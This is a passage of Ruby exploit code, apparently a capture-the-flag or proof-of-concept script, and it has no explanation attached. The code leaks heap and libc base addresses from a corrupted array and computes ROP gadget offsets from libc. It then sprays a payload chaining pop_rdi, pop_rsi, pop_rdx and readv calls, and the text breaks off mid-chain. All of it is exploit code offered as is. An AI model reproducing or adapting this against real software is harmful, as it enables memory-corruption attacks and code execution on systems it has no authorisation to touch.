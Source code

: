 ```ruby
while i<$ooa_size do
    if touint($arr[i+1])&0xff00 == 0x7f00 and touint($arr[i])&0xfff == 0xc78
        $libcaddr=touint($arr[i+1])<<32
        $libcaddr+=touint($arr[i])
        $libcaddr-=(0x3c4c78+0x16000)
    end
    if touint($arr[i+1])&0xff00 == 0x5500 and touint($arr[i+2]) == payload_size
        $heapaddr=touint($arr[i+1])<<32
        $heapaddr+=touint($arr[i])
    end
    if touint($arr[i+2])==0xae57 and $idx==0
    #if touint($arr[i])&0xfff==0xbe0 and touint($arr[i+2])&0xfff==0xd10 and touint($arr[i+8])==0x41 and $idx==0
	t1=touint($arr[i+1])<<32
	t1+=touint($arr[i])
	#puts t1.to_s(16)
	t2=touint($arr[i+3])<<32
	t2+=touint($arr[i+2])
	#puts t2.to_s(16)
	$idx=i
    end
    i+=2
end
if not $heapaddr
    puts "[-]leak heap failed"
    exit
end
puts "[+]heap addr = 0x"+$heapaddr.to_s(16)

if not $libcaddr
    puts "[-]leak libc base failed"
    exit
end
puts "[+]libc base = 0x"+$libcaddr.to_s(16)

if $idx==0
    puts "[-] find idx failed"
    exit
end
puts "[+]idx = 0x"+$idx.to_s(16)
spray_arr=Array.new($spray_size)
sleep 1
pop_rdi=$libcaddr+0x00186e2e
pop_rsi=$libcaddr+0x00189865
pop_rdx=$libcaddr+0x00001b96
pop_rcx=$libcaddr+0x001c2b1c
readv=$libcaddr+0x109ed0
write=$libcaddr+0xb83c60
exit0=$libcaddr+0x3bf00
pop_rsp=$libcaddr+0x00159f1c #pop rsp; ret
push_jump=$libcaddr+0x0019e53b #push [rdx]; jmp [rsi-0x14]
i=0
while i<=$spray_size do
    payload=p64(pop_rdi)
    payload+=p64(1023)
    payload+=p64(pop_rsi)
    payload+=p64($heapaddr+0x100)
    payload+=p64(pop_rdx)
    payload+=p64(1)
    payload+=p64(readv)
    payload+=p64(pop_rdi)
    payload+=p64(1)
    payload+=p64(pop_rsi)
```